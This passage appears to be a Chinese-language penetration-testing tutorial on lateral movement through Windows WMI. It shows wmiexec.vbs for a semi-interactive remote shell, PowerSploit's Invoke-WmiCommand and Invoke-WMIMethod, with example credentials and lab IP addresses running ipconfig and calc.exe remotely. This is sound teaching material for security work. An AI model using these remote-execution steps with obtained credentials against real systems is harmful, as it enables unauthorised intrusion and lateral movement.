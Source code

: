 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIU6QNf9NNw1OM4IMNsbkfDIulFPgic4OkSiaHeqSicO6RNkBfAXaDiabpzw/640?wx_fmt=png)

如果对方主机开启了 135 和 445，但是未开启 admin$ 共享，则一直处于连接状态。  

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEISUsrqZkkdliapDYHReWND3MrlXGR2cg2ByE1kMVUrdo9LtgDVKicPC8A/640?wx_fmt=png)

wmiexec.vbs
===========

wmiexec.vbs 脚本通过 VBS 调用 wmic 来模拟 psexec 的功能。wmiexec.vbs 可以在远程系统中执行命令并进行回显，获得远程主机的半交互式的 shell。对于运行时间比较长的命令，例如 ping、systeminfo，需要添加 -wait 5000 或者更长时间的参数。在运行 nc 等不需要输入结果但需要一直运行的进程时，如果使用 -persist 参数，就不需要使用 taskkill 命令来远程结束进程了。

```
#获得一个半交互式的shell
cscript //nologo wmiexec.vbs /shell 192.168.10.20 administrator root
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIhYbdibuGHehAZRKe5GaqLFnLH3K7clibSwryveHjziaTtPDDPQJ1Q0Exw/640?wx_fmt=png)

Invoke-WmiCommand.ps1

该脚本在 PowerSploit 中的 CodeExecution 目录下，该脚本主要是通过 powershell 调用 WMIC 来远程执行命令，因此本质上还是利用 WMIC。

该脚本使用如下

```
#导入脚本
Import-Module .\Invoke-WmiCommand.ps1
#目标系统用户名
$User="xie\administrator"
#目标系统密码
$Password=ConvertTo-SecureString -String "x123456./@" -AsPlainText -Force
#将账号和密码整合起来，以便导入 Credential中
$Cred=New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
#在远程系统中运行 ipconfig 命令
$Remote=Invoke-WmiCommand -Payload {ipconfig} -Credential $Cred -ComputerName 192.168.10.131
#将执行结果输出到屏幕上
$Remote.PayloadOutput
```

Invoke-WMIMethod
================

使用 powershell 自带的 Invoke-WMIMethod，可以在远程系统中执行命令和指定程序。

在 powershell 命令行环境执行如下命令，可以以非交互式的方式执行命令，但不会回显执行结果。

```
#目标系统用户名
$User="xie\administrator"
#目标系统密码
$Password=ConvertTo-SecureString -String "x123456./@" -AsPlainText -Force
#将账号和密码整合起来，以便导入 Credential中
$Cred=New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User,$Password
#在远程系统中运行 calc.exe 命令
Invoke-WMIMethod -Class Win32_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.10.131" -Credential $Cred
```

